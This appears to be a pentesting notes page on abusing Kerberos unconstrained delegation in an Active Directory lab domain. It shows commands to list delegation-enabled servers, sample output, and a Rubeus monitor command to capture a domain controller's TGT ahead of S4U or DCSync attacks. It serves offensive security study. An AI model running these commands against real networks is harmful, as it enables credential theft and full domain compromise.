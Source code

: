 # Unconstrained delegation

Unconstrained Delegation is a mechanism in which a server will save the TGT of the users that authenticate to it in order to reuse it to access other services. When unconstrained delegation is enabled, a user could extract the TGT stored in the server.

An attack path could be coercing a privileged account (i.e. a DC machine account) to authenticate to the controlled server with unconstrained delegation enabled.



## List Unconstrained Delegation (UD) servers

```powershell
> Get-ADComputer -Filter { TrustedForDelegation -eq $True }
DistinguishedName : CN=US-WEB,CN=Computers,DC=us,DC=techcorp,DC=local
DNSHostName       : US-Web.us.techcorp.local
Enabled           : True
Name              : US-WEB
ObjectClass       : computer
ObjectGUID        : cb00dc1e-3619-4187-a02b-42f9c964a637
SamAccountName    : US-WEB$
SID               : S-1-5-21-210670787-2521448726-163245708-1110
UserPrincipalName :
```

Here, the server `US-Web` has unconstrained delegation enabled.

_Note: it is expected for domain controllers to have UD enabled._

## Exploit UD

First, on the UD server, run Rubeus in monitor mode:

```powershell
> .\Rubeus.exe monitor /targetuser:US-DC$ /interval:5 /nowrap
```

Rubeus will monitor authentications from user `US-DC$` every 5 seconds.

Then, coerce the target server to authenticate to the UD server, with [coerce-authentication.md](../misc/coerce-authentication.md "mention").

Rubeus catches the TGT that `US-DC$` passes to authenticate. It is then possible to elevate privileges on the `US-DC` machine with [s4u.md](s4u.md "mention"). In addition, if the target server is a domain controller, it is possibly to directly perform a [dcsync.md](dcsync.md "mention") attack to compromise the domain.
